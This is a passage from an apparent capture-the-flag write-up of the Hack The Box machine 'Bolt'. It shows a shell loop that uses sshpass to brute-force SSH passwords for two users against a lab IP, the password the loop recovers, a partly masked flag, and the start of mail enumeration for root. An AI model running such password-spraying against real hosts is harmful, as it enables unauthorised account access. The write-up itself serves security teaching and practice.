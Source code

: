 
This will get each combination of user and password, and try to SSH to Bolt.
The session is running exit immediately after a successful connection, so if
that happens, it will exit successfully and print the message. It finds a
working set of creds:

    
    
    oxdf@hacky$ for u in clark eddie; do for p in $(cat passwords); do sshpass -p "$p" ssh ${u}@10.10.11.114 -f 'exit' && echo "Success! User: $u Pass: $p"; done; done
    Permission denied, please try again.
    Permission denied, please try again.
    Permission denied, please try again.
    Permission denied, please try again.
    Permission denied, please try again.
    Permission denied, please try again.
    Permission denied, please try again.
    Success! User: eddie Pass: rT2;jW7<eY8!dX8}pQ8%
    

Either way, I can get `user.txt`:

    
    
    eddie@bolt:~$ cat user.txt
    8403ba4b************************
    

## Shell as root

### Enumeration

#### Mail

`/var/mail` has mailboxes for different users on the system:

    
    
    eddie@bolt:/var/mail$ ls -l
    total 16
    drwx--S--- 5     5001 mail 4096 Sep  8 14:59 0xdf
    -rw------- 1 eddie    mail  909 Feb 25  2021 eddie
    -rw------- 1 root     mail    1 Mar  3  2021 root
    -rw------- 1 www-data mail    1 Mar  3  2021 www-data
    

I suspect mine has the emails from the SSTI earlier (though I can’t access it
as eddie). eddie’s has an email from clark:

    
    
    From clark@bolt.htb  Thu Feb 25 14:20:19 2021
    Return-Path: <clark@bolt.htb>
    X-Original-To: eddie@bolt.htb
    Delivered-To: eddie@bolt.htb
    Received: by bolt.htb (Postfix, from userid 1001)
            id DFF264CD; Thu, 25 Feb 2021 14:20:19 -0700 (MST)
    Subject: Important!
    To: <eddie@bolt.htb>
    X-Mailer: mail (GNU Mailutils 3.7)
    Message-Id: <20210225212019.DFF264CD@bolt.htb>
    Date: Thu, 25 Feb 2021 14:20:19 -0700 (MST)
    From: Clark Griswold <clark@bolt.htb>
    